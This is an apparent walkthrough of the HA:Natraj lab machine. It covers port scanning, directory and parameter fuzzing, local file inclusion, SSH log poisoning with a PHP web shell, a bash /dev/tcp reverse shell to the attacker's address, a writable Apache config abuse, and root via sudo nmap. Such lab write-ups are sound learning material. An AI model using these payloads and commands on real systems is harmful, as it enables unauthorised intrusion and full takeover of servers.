






# Natraj

## Nmap Scan

```bash
❯ nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 192.168.0.110 -oG allPorts

Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-27 19:31 -03
Initiating ARP Ping Scan at 19:31
Scanning 192.168.0.110 [1 port]
Completed ARP Ping Scan at 19:31, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:31
Scanning 192.168.0.110 [65535 ports]
Discovered open port 80/tcp on 192.168.0.110
Discovered open port 22/tcp on 192.168.0.110
Completed SYN Stealth Scan at 19:31, 0.69s elapsed (65535 total ports)
Nmap scan report for 192.168.0.110
Host is up, received arp-response (0.00032s latency).
Scanned at 2022-12-27 19:31:19 -03 for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:44:78:91 (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.89 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
           
```

```bash
❯ nmap -p22,80 -sCV 192.168.0.110 -oN Targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-27 19:31 -03
Nmap scan report for 192.168.0.110
Host is up (0.00023s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:9f:da:f4:2e:67:01:92:d5:da:7f:70:d0:06:b3:92 (RSA)
|   256 bc:ea:f1:3b:fa:7c:05:0c:92:95:92:e9:e7:d2:07:71 (ECDSA)
|_  256 f0:24:5b:7a:3b:d6:b7:94:c4:4b:fe:57:21:f8:00:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:44:78:91 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
```

Port 80 is open, so I'll run a `whatweb` command.

```bash
❯ whatweb 192.168.0.110
http://192.168.0.110 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[192.168.0.110], Script, Title[HA:Natraj]
```

Nothing interesting in the Web.

<center></center>

I'll fuzz directories with `gobuster`.

```bash
❯ gobuster dir -u http://192.168.0.110 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.110
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2022/12/27 19:34:30 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://192.168.0.110/images/]
/index.html           (Status: 200) [Size: 14497]                                 
/console              (Status: 301) [Size: 316] [--> http://192.168.0.110/console/]
Progress: 51945 / 661683 (7.85%)                                                  ^C
[!] Keyboard interrupt detected, terminating.
                                                                                   
===============================================================
2022/12/27 19:34:35 Finished
===============================================================
```

Something weird there, **/console**. Let's see what's in there.

<center></center>

Now, I need to fuzz parameters to this file.

```bash
❯ wfuzz -c -t 200 --hh=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://192.168.0.110/console/file.php?FUZZ=/etc/passwd"

/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.0.110/console/file.php?FUZZ=/etc/passwd
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000759:   200        27 L     35 W       1398 Ch     "file"                                                                                                                   
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 3.423852
Processed Requests: 1814
Filtered Requests: 1813
Requests/sec.: 529.8125
```

<center></center>

LFI founded! 

I'll search for **id_rsa** or logs.

<center></center>

No RSA founded.

I'll try to find auth logs in the common paths.

<center></center>

**/var/log/auth.log** looks interesting. I'll try to create a log via ssh with an incorrect username and password.

```bash
❯ ssh test@192.168.0.110
test@192.168.0.110's password: 
Permission denied, please try again.
test@192.168.0.110's password:  
```

<center></center>

Perfect, we can see the output of our username. Let's try to add some PHP code there.

```bash
❯ ssh '<?php system($_GET["cmd"]); ?>'@192.168.0.110
<?php system($_GET["cmd"]); ?>@192.168.0.110's password: 
Permission denied, please try again.
<?php system($_GET["cmd"]); ?>@192.168.0.110's password: 
```

<center></center>

Pwn3d! We have RCE. Let's reverse shell the connection.

```bash
❯ sudo nc -lvnp 443
```

`http://192.168.0.110/console/file.php?file=/var/log/auth.log&cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.0.91/443 0>%261'`
 
Reverse shell tty session

```bash
www-data@ubuntu:/var/www/html/console$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@ubuntu:/var/www/html/console$ ^Z
zsh: suspended  nc -lvnp 443

❯ stty raw -echo; fg
 reset  xterm

www-data@ubuntu:/$ export TERM=xterm
www-data@ubuntu:/$ export SHELL=bash
```

```bash
www-data@ubuntu:/$ find / -writable 2>/dev/null | grep -vE "/lib|/proc|/dev|/run|/sys"
/tmp
/etc/apache2/apache2.conf
/var/www/html
/var/tmp
/var/lock
/var/cache/apache2/mod_cache_disk
```

I founded that the file **apache2.conf** is writable, this is critical for the next reason.

```bash
[snip]
# same client on the same connection.
#
KeepAliveTimeout 5


# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}
Group ${APACHE_RUN_GROUP}

#
# HostnameLookups: Log the names of clients or just their IP addresses
# e.g., www.apache.org (on) or 204.62.129.132 (off).
# The default is off because it'd be overall better for the net if people
# had to knowingly turn this feature on, since enabling it means that
# each client request will result in AT LEAST one lookup request to the
# nameserver.
#
HostnameLookups Off
[snip]
```

Change the parameters `User` & `Group`.

```bash
User mahakal
Group mahakal
```

Restart the machine and gain access with the same method

```bash
mahakal@ubuntu:/$ sudo -l
Matching Defaults entries for mahakal on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mahakal may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/nmap
```

We can run nmap as root. Let's check if [GTFObins](https://gtfobins.github.io/gtfobins/nmap/#sudo) can help us.

We need to run the following lines to gain access as root.

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

```bash
mahakal@ubuntu:/$ TF=$(mktemp)
mahakal@ubuntu:/$ echo 'os.execute("/bin/sh")' > $TF
mahakal@ubuntu:/$ sudo nmap --script=$TF

Starting Nmap 7.60 ( https://nmap.org ) at 2022-12-27 15:21 PST
NSE: Warning: Loading '/tmp/tmp.OmCkBdBG38' -- the recommended file extension is '.nse'.
# root
# 
```

The only bad thing is that we can't see our commands.

```bash

███▄▄▄▄      ▄████████     ███        ▄████████    ▄████████      ▄█ 
███▀▀▀██▄   ███    ███ ▀█████████▄   ███    ███   ███    ███     ███ 
███   ███   ███    ███    ▀███▀▀██   ███    ███   ███    ███     ███ 
███   ███   ███    ███     ███   ▀  ▄███▄▄▄▄██▀   ███    ███     ███ 
███   ███ ▀███████████     ███     ▀▀███▀▀▀▀▀   ▀███████████     ███ 
███   ███   ███    ███     ███     ▀███████████   ███    ███     ███ 
███   ███   ███    ███     ███       ███    ███   ███    ███     ███ 
 ▀█   █▀    ███    █▀     ▄████▀     ███    ███   ███    █▀  █▄ ▄███ 
                                     ███    ███              ▀▀▀▀▀▀  


!! Congrats you have finished this task !!  
       
Contact us here:      
        
Hacking Articles : https://twitter.com/rajchandel/
Geet Madan : https://www.linkedin.com/in/geet-madan/  
                
+-+-+-+-+-+ +-+-+-+-+-+-+-+     
 |E|n|j|o|y| |H|A|C|K|I|N|G|   
 +-+-+-+-+-+ +-+-+-+-+-+-+-+      
__________________________________
```

Thanks for reading!

